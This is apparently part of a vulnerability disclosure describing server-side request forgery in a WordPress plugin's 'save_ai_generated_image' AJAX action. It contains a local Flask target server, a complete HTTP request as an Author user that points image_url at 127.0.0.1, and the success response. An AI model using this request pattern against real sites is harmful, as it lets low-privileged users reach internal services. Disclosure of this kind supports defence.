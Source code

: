 ```py
from flask import Flask, jsonify, request, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/test')
def test():
    return send_from_directory(BASE_DIR, 'requirements.txt', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```txt {filename="requirements.txt"}
hello
```

### Proof of Concept (PoC)

Send a request with `image_url` pointing to a local service `http://127.0.0.1:8001/test` as an **Author** user:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-login.php?loggedout=true&wp_lang=en_US
Connection: keep-alive
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=auth%7C1761189920%7CaUULiwmj9KXCapzU3Q82L7W45WcbXbqHowa8a6yQ2Vz%7C3cc12be38f8f94048309b7fcd31bd2187065311afecea7df5a9f01f5a207072b; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=auth%7C1761189920%7CaUULiwmj9KXCapzU3Q82L7W45WcbXbqHowa8a6yQ2Vz%7C38f09626eae6d08f6cdb9cd1ce781da26c2acdd8ef2fd1822d84a6d76c6c95ad; wp-settings-time-4=1761017121

action=save_ai_generated_image&admin_nonce=9433571df4&prompt=abc&image_url=http://127.0.0.1:8001/test
```

**Response**:

```json
{
  "success": true,
  "data": {
    "attachment_id": 355,
    "url": "http://localhost/wp-content/uploads/2025/10/ai-generated-abc-1761019403.png",
    "alt": "abc",
    "title": "abc",
    "caption": "",
    "description": ""
  }
}
```

